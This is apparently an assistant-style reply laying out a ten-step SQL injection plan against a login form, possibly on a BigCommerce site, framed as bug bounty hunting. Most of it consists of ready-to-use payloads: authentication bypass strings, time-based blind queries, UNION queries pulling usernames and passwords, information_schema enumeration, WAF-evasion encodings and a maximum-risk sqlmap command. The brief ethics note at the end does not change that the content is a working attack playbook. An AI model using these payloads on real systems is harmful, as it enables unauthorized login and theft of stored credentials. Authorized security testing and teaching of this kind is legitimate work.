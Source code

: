 Starting with SQL Injection (SQLi) on a login page is a sound approach for bug bounty hunting, but it's essential to structure your testing to ensure thorough and ethical analysis. Here's a step-by-step strategy and suggestions:

---

### **1. Understand the Form Structure**
- **Target Fields:** `user[email]` and `user[password]`.
- **Action URL:** `/login`.
- **Method:** `POST`.
- **CSRF Protection:** `authenticity_token` is present, indicating CSRF protection. Ensure you include this in your requests.

---

### **2. Basic SQLi Payloads**
Test the `email` and `password` fields individually with basic payloads to check for error-based SQL injection:
- `' OR 1=1--`
- `' OR '1'='1`
- `' UNION SELECT NULL, NULL--`
- `' OR EXISTS(SELECT 1)--`

If the form returns errors, observe whether they indicate SQL query failures (e.g., syntax errors) or logical bypasses.

---

### **3. Time-Based Blind SQLi**
If no error is revealed, try time-based blind SQLi:
- `' OR IF(1=1,SLEEP(5),0)--`
- `' AND IF(1=1,BENCHMARK(1000000,MD5(1)),0)--`

Monitor response times to identify delays caused by your payloads.

---

### **4. Authentication Bypass**
Attempt to bypass authentication by manipulating the fields:
- Email: `' OR 1=1--`
- Password: `anything`

Submit to see if the application bypasses authentication logic.

---

### **5. UNION-Based SQLi**
Test for UNION injection to extract data:
- `' UNION SELECT NULL, NULL--`
- `' UNION SELECT 1,2--`
- `' UNION SELECT username,password FROM users--`

Look for clues in the response that indicate successful injection.

---

### **6. Advanced Payloads**
- Determine the number of columns: `' ORDER BY 1--`, `' ORDER BY 2--`, etc.
- Explore database information:  
  ```sql
  ' UNION SELECT schema_name,NULL FROM information_schema.schemata--
  ' UNION SELECT table_name,NULL FROM information_schema.tables--
  ' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name='users'--
  ```

---

### **7. WAF Detection and Bypasses**
BigCommerce might have a Web Application Firewall (WAF). Test payloads with common evasion techniques:
- Encoding: `%27%20OR%201=1--`
- Case manipulation: `' Or 1=1--`
- Inline comments: `' OR 1/**/=/**/1--`

---

### **8. Automate Testing**
Use tools like `sqlmap` to automate payload delivery and enumeration:
```bash
sqlmap -u "https://target.com/login" --data="user[email]=test&user[password]=test&authenticity_token=TOKEN" --risk=3 --level=5
```
Modify `--data` to include your POST payload.

---

### **9. Check for Other Injection Points**
- Is the `authenticity_token` vulnerable to SQLi?
- Test URL parameters, headers, or hidden fields.

---

### **10. Ethical Considerations**
Always:
- Avoid testing in production environments unless explicitly allowed.
- Submit only validated vulnerabilities with clear replication steps.

---

### Recommended Payloads Cheat Sheet
- **Authentication Bypass:** `' OR '1'='1`
- **Time-Based Blind SQLi:** `' AND IF(1=1,SLEEP(5),0)--`
- **Data Extraction (Columns):** `' UNION SELECT 1,group_concat(column_name) FROM information_schema.columns--`

Start with reconnaissance payloads to gather intel, then escalate based on the responses. Good luck, and happy hunting! 
